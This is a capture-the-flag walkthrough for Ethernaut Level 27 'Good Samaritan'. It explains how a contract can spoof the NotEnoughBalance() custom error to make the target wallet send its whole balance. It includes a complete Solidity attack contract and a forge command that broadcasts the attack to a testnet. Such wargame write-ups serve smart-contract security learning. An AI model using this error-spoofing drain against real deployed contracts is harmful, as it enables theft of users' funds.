


<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 27 - Good Samaritan</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 27 - Good Samaritan](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-27-good-samaritan)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals



## The hack

We are given three contracts in the `GoodSamaritan` level:

1. **GoodSamaritan** - The contract in charge of distributing the donations.
2. **Coin** - A very minimalist token implementation handling the users' balances.
3. **Wallet** - The wallet belonging to this good old sama.

How to drain the good old Sama's wallet?

Let's check the `GoodSamaritan::requestDonation` function:

```javascript
function requestDonation() external returns(bool enoughBalance){
    // donate 10 coins to requester
    try wallet.donate10(msg.sender) {
        return true;
    } catch (bytes memory err) {
        if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
            // send the coins left
            wallet.transferRemainder(msg.sender);
            return false;
        }
    }
}
```

From there, we can either:

- request 10 coins many, many, many times or...
- try to find a way to trigger the `transferRemainder` function to withdraw everything at once.

So let's try to withdraw everything at once! The `transferRemainder` function is protected by the `onlyOwner` modifier, so the only way to trigger it is by reverting with the `NotEnoughBalance()` custom error.

So what happens exactly when we request a donation? The `Wallet::donnate10()` function is called:

```javascript
function donate10(address dest_) external onlyOwner {
    if (coin.balances(address(this)) < 10) {
        revert NotEnoughBalance();
    } else {
        coin.transfer(dest_, 10);
    }
}
```

This function reverts with the `NotEnoughBalance()` error only if the wallet's balance is less than 10. Otherwise, it forwards the call to the `Coin::transfer` function.

```javascript
function transfer(address dest_, uint256 amount_) external {
    uint256 currentBalance = balances[msg.sender];

    if(amount_ <= currentBalance) {
        balances[msg.sender] -= amount_;
        balances[dest_] += amount_;

        if(dest_.isContract()) {
            INotifyable(dest_).notify(amount_);
        }
    } else {
        revert InsufficientBalance(currentBalance, amount_);
    }
}
```

This custom `transfer()` function is interesting because it calls the `INotifyable::notify` function if the destination address is a contract. And this relies on the `INotifyable` interface. So what if we implement the `INotifyable` interface to revert with the `NotEnoughBalance()` error if we receive 10 coins?

So the flow would be this:

1. `GoodSamaritan::requestDonation()`
2. `Wallet::donate10()`
3. `Coin::transfer()`
4. `INotifyable::notify()`
5. `ThanksForTheNotif::revert NotEnoughBalance()`
6. `wallet::transferRemainder()`

## Solution

Here is the `ThanksForTheNotif` contract that will do just that for us:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface INotifyable {
    function notify(uint256 amount) external;
}

interface IGoodOldSama {
    function coin() external returns (address);
    function wallet() external returns (address);
    function requestDonation() external returns (bool);
}

interface ICoin {
    function balances(address user) external view returns (uint256);
}

contract ThanksForTheNotif {
    IGoodOldSama private goodOldSama;
    ICoin private coin;
    address private wallet;

    error NotEnoughBalance();

    constructor(address _goodOldSama) {
        goodOldSama = IGoodOldSama(_goodOldSama);
        coin = ICoin(goodOldSama.coin());
        wallet = goodOldSama.wallet();
    }

    function notify(uint256 amount) public pure {
        if (amount == 10) {
            revert NotEnoughBalance();
        }
    }

    function attack() public {
        goodOldSama.requestDonation();
        require(coin.balances(wallet) == 0, "Attack failed!");
    }
}
```

The command to run the script:

```bash
forge script script/27_GoodSamaritan.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Custom errors in a try/catch block can be thrown by any other contract since they are identified by their 4-byte selector.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
